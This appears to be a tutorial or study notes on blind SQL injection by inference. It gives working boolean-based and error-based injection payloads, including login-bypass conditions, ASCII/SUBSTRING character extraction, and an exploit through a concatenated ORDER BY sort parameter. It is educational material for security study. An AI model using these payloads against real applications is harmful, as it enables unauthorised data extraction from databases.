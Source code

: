 # Using Inference: Conditional Responses

When **no results or errors are returned** from injected queries and **no outbound channels** are available (e.g., due to internal network firewalls), attackers can still extract data using **inference-based SQL injection** techniques.

These techniques **infer information** by observing subtle changes in the application’s behavior based on injected **conditional logic**.

---

## **Conditional Behavior-Based Extraction**

The application’s response changes based on injected conditions:
```sql
admin' AND 1=1--    → Logs in
admin' AND 1=2--    → Fails login
```

You can use this behavior to determine **truth values** inside the database. Example using ASCII and SUBSTRING:
```sql
admin' AND ASCII(SUBSTRING('Admin',1,1)) = 65--  → Logs in (true)
admin' AND ASCII(SUBSTRING('Admin',1,1)) = 66--  → Fails login (false)
```

By cycling through ASCII values, you can reconstruct a string **one character at a time**.

---

## **Inducing Conditional Errors**

When visible behavior (e.g., login success/failure) is **not available**, use **error-based inference**:

- Rely on **short-circuit evaluation** in SQL (only evaluate necessary expressions).
- Inject a condition that, if true, causes a **syntactic error** (e.g., divide by zero).

### Example (Oracle / MS-SQL):

**Case 1: User exists (causes error)**
```sql
SELECT 1/0 FROM dual WHERE (SELECT username FROM all_users WHERE username = 'DBSNMP') = 'DBSNMP'
```

**Case 2: User doesn’t exist (no error)**
```sql
SELECT 1/0 FROM dual WHERE (SELECT username FROM all_users WHERE username = 'AAAAAA') = 'AAAAAA'
```

If the WHERE clause is **false**, `1/0` is **not evaluated**, so no error occurs. Otherwise, an error confirms the truth of the condition.

> This allows testing **arbitrary boolean conditions** indirectly.

---

## **Generalized Form of the Attack**

You can structure conditional error tests like:
```sql
(SELECT 1 WHERE <<condition>> OR 1/0=0)
```

This enables inference even when injecting into **non-visible** parts of the query.

---

## **Practical Example: Sort Parameter Injection**

Application:
```http
/search.jsp?department=30&sort=ename
```

Back-end query:
```java
SELECT ename, job, deptno, hiredate FROM emp WHERE deptno = ? ORDER BY " + sort + " DESC
```

- `department` is parameterized
- `sort` is **concatenated directly** and **vulnerable**

### Exploit:
```http
/search.jsp?department=20&sort=(
  SELECT 1/0 FROM dual WHERE
  (SELECT SUBSTR(MAX(object_name),1,1) FROM user_objects) = 'Y'
)
```

- If the **first letter** of any `object_name` is `'Y'`, error occurs due to `1/0`.
- If not, the query executes normally.

This allows attackers to:
- Check a condition bit by bit
- Retrieve data with tools like **SQLMap** or **Absinthe**

---

## **Summary**

- Inference techniques are powerful in **blind SQLi** scenarios.
- Two major methods:
  - **Boolean-based inference** (response differs based on condition)
  - **Error-based inference** (induce an error on true condition)
- These work even when:
  - No query results are returned
  - No network channels are available
  - You can only control subqueries or parts of the SQL

> **TIP**: Use ASCII + SUBSTRING (or equivalent) functions for fine-grained character extraction. Use error-based logic when application behavior is not visibly altered.

---
